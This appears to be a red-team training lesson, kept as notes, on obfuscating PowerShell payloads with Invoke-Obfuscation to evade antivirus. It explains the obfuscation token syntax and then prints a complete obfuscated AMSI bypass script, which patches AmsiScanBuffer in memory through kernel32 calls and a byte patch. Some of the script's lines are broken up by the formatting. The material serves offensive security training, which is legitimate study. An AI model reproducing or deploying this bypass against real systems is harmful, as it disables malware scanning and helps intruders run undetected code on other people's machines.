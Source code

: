 Now that we have bypassed AMSI, we need to obfuscate and modify our launcher and grunt code to evade anti-virus. We will begin by understanding the basics of using automated obfuscators like `Invoke-Obfuscation` and `ISE-Steroids` to perform advanced string and signature manipulation.  

We again recommend using a development virtual machine to test and edit code.  

## Obfuscating AMSI bypass code

Invoke-Obfuscation, [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), is a utility built by Daniel Bohannon and Cobbr. It is used to take a series of arguments/obfuscation tokens and automatically obfuscate provided code. From their GitHub, *"Invoke-Obfuscation is a PowerShell v2.0+ compatible PowerShell command and script obfuscator."*. Red teamers can use obfuscation to make reverse engineering/analysis harder and, in some cases, bypass anti-virus and other detections.  

Invoke-Obfuscation syntax can seem very large and scary at first if you don't understand how it breaks down the obfuscation tokens. We can follow along with this guide created by the author of Invoke-Obfuscation to get familiar with the syntax [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide).  

To begin our obfuscation attempts, we will need to set the script block or the payload we want to obfuscate and then specify tokens to use. Invoke-Obfuscation offers both an argument parsing command-line tool as well as a friendly CLI (Command Line Interface). For our purposes, we will be using the command line. We will only be covering an example of using a token to bypass anti-virus, creating a token command, and the various use cases are out of scope for this task.  

Below is the command we will use to obfuscate our payload. The token command used at the time of writing will bypass anti-virus for some payloads or tools. We will be breaking this command down later in this task.

`Invoke-Obfuscation -ScriptBlock {'Payload Here'} -Command 'Token\\String\\1,2,\\Whitespace\\1' -Quiet -NoExit`

To break it down:

- `-ScriptPath` points to the PowerShell script to obfuscate
    
    - `-ScriptBlock {'<PAYLOAD>'}` will also work for obfuscating scripts or commands directly
- `-Command` is where we string together our obfuscation commands:
    
    - `Token\\String\\1` relates to the first string obfuscation under the token section… it simply concatenates the string. Below is a screenshot of the output of STRING in the _CLI_:  
        ![[Task 33 - JU57 0BFU$C47E 1T-20241012062100154.webp]]
        
    - `2` relates to the 2nd option in the screenshot above, `Reorder` – if you do not supply the full ‘path’ to next obfuscation command (e.g. `Token\\String\\2`) it will append the path from the previous command depending on what is missing…
        
    - `Token\\Variable\\1` relates to the 1st VARIABLE type of TOKEN, and will . As mentioned above, since we left off `Token\\` it has appeneded it from the previous command:  
        ![[Task 33 - JU57 0BFU$C47E 1T-20241012062351572.webp]]
        
    - `Token\\Whitespace\\1` adds random whitespaces between the concatenation:  
	    ![[Task 33 - JU57 0BFU$C47E 1T-20241012062242516.webp]]
        
- `-Quiet` simply makes the output less verbose
    
- `-NoExit` ensures that you don’t exit from **Invoke-Obfuscation**‘s _CLI_ after it has obfuscated the code to your liking.

---
### Further Obfuscated **amsi_bypass.ps1**

`${methODdEf<code>i`
`NI`
`T`
`ion} =   ('`
`' + '`
 `' + ' '+' ' +  ' ' +  ("[DllImport(`
`"kernel32`
`")]`
 `"+  '') +  ' '+' '  +  ' ' +  'p'  + (  "{1}{0}"-f 'ic ','ubl' ) +  'st'+ ( "{1}{0}" -f'c ','ati') +(  "{0}{1}"-f 'ext','ern' ) +' '+  'Int' + ( "{0}{1}"-f 'P','tr ' )  + ("{0}{1}"-f 'G','etPr'  )+'oc' +'Ad'+  'dre'+  's'+  's'+( ( ("{2}{0}{1}"-f'r',' ','(IntPt' )  )) +  (  "{1}{0}"-f 'od','hM'  )+ ("{1}{0}" -f'e,','ul')  +' '+  ("{1}{0}" -f 'tri','s')  +'n','am','ro' +'cN' + ((( "{1}{0}{2}"-f 'e);`
`') ) )  + '`
`'+' '+' ' + ' '  + ' '  +  (  "[DllImport(`
`"kernel32`
`")]`
 `" + ''  )+ ' '+ ' ' +' '+  'pu'+'b' +  ("{0}{1}" -f'lic',' ' )+'st'  +  ( "{1}{0}"-f 'c ','ati')+'ext' +'er' +'n '+ 'In'  +  (  "{0}{1}" -f'tP','tr '  )  + ("{1}{0}" -f'ule','GetMod'  )+ (  "{0}{1}"-f'Ha','ndl'  )+  'e(s' +("{1}{0}"-f'ng','tri' )+' '  + 'lpM' +( "{0}{1}"-f 'odu','leN' ) + 'a' +  'm'  +  'e'+  (  (( "{1}{2}{0}"-f'`
 `',');','`
`')  )) + ' '  +' '+' '  +  ( "[DllImport(`
`"kernel32`
`")]`
 `"+''  )  + ' '+' '+' '+  'pub'+  ("{0}{1}" -f 'lic',' ' ) + 'sta'  +("{1}{0}" -f ' ','tic'  )+'ex'+ (  "{0}{1}"-f'ter','n ' ) +  'b'+(  "{0}{1}"-f'o','ol '  )  +(  "{1}{0}" -f'u','Virt' ) +'al'  +  (  "{2}{0}{1}"-f'ot','ec','Pr')+ ((  ( "{1}{0}" -f 'IntP','t('  )) ) + 'tr '  +( "{0}{2}{1}"-f'lpA','es','ddr') +'s,'  + ' '+'U'  +( "{0}{1}"-f'In','tP'  )+ 'tr '+'d' +("{0}{1}" -f 'wSiz','e,' )+  ' ' +'u' +( "{0}{1}"-f 'int',' ')  + 'f'+ (  "{2}{1}{0}" -f'ot','Pr','lNew'  ) +  ("{1}{0}"-f',','ect') + ' '  +'out'  + ' '+  'uin'+ 't '+  'l'+  (  "{0}{1}" -f 'pflO','ldP' )  +  ( (  ( "{1}{0}{2}"-f 'ect)','rot',';') )  )  +'`
`'  )  ;`

`${ke`
`RN`
`El32}  =   Add-Type -MemberDefinition ${METhODd`
`EfIN`
`I`TioN} -Name ('K'+ 'ern' +( "{1}{0}" -f'2','el3')  ) -NameSpace (("{0}{1}" -f'Win','3' )+ '2' ) -PassThru  ;`
`${a`BSd}  =   (  'Ams'+'iS'  ) + (  'ca'+'nB' +  ( "{0}{1}"-f'uffe','r'  )  );`
`${H`
`An`
`DLe}   =  [Win32.Kernel32]::GetModuleHandle( (  'a'+( "{2}{0}{1}"-f '.d','ll','msi'  )) );`
`[IntPtr]${Buf`
`F`
`Er`
`A`
`DDREss} = [Win32.Kernel32]::GetProcAddress( ${H`
`AN`
`dle}, ${Ab`SD}) ;`
`[UInt32]${S`iZE}  = 0x5;`
`[UInt32]${pROTECT`
`F`
`lAg}   =   0x40;`
`[UInt32]${o`
`ldpROTE`
`cT`
`Fl`
`Ag}  =  0;`
`[Win32.Kernel32]::VirtualProtect( ${BuF`
`FerADDr`
`eSS}, ${Si`
`zE}, ${prOTeC`
`TFL`
`Ag}, [Ref]${oLd`
`pr`
`oT`
`EC`TFlag}  ) ;`
`${b`Uf}  =  [Byte[]]( [UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3  ) ;`
`[PSObject].Assembly.GetType( ( ("{1}{0}"-f'st','Sy'  ) +'em'+'.Ma' +  ("{0}{1}"-f'nage','m'  )+ 'ent'  +'.A' +'uto' +("{0}{1}" -f 'mation.T','y')  +'p'+'eA'  + 'cc'+  'e'  +  ("{0}{1}" -f'l','era' )+  ( "{1}{0}" -f's','tor'  )  )  )::Add(  ((  "{0}{1}"-f 'd','1ks')+'t1k' ), [system.runtime.interopservices.marshal]  )`
`[d1kst1k]::copy(  ${B`
`Uf}, 0, ${b`
`UffeR`
`AdD`
`R`Ess}, 6)  ; 4`


If obfuscated efficiently, you should now have a successful PowerShell payload that will bypass anti-virus and make reverse engineering harder. Before executing on a production environment, you should always experiment and test on your development server to ensure that everything goes smoothly during the actual production engagement.  

In the next task, we will cover what you can do when obfuscation fails, or you need to use something that isn't purely written in PowerShell by utilizing code review and ThreatCheck/DefenderCheck.

**Next step:** [[Task 34 - 'Ca' + 'n' + 'you' + ' ' + 'see' + 'me now' + '?']]
